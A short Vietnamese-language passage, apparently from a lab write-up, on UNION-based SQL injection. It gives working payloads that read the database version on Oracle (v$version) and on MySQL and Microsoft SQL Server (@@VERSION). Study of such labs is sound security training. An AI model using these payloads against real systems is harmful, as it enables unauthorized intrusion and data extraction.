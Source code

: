 Ta xác định được có 2 trường dữ liệu, đề bài là hệ thống Oracle SQL nên ta sử dụng truy vấn phù hợp với hệ thống Orcacle: **' UNION SELECT BANNER, NULL FROM v$version--**
Tương tự với 2 hệ thống MySQL và Microsoft là truy vấn **' UNION SELECT @@VERSION,NULL#**
![image](https://user-images.githubusercontent.com/62832067/150308405-31ac05d2-9942-486a-8730-16489e71fabc.png)
![image](https://user-images.githubusercontent.com/62832067/150308164-aebf3230-7705-4c8a-b11b-347116dfbbcd.png)

